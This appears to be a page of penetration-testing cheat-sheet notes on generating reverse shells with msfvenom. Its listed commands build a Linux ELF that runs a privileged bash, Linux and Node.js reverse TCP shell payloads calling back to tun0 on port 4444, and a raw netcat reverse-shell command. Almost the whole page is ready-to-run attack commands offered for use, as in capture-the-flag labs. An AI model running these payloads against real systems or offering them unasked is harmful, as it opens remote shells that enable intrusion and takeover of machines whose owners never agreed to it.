 # Shell

...

<hr class="sl">

## msfvenom

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit
$ msfvenom --list payloads | grep meterpreter
```

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (R=RAW) opening a reverse shell with netcat
# same as "-f raw" (to check)?
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 R
```
</div><div>

* **Node.js**

```bash
# Generate a .js opening a reverse shell (TCP)
$ msfvenom -p nodejs/shell_reverse_tcp LHOST=tun0 LPORT=4444 -o shell.js
```

...
</div></div>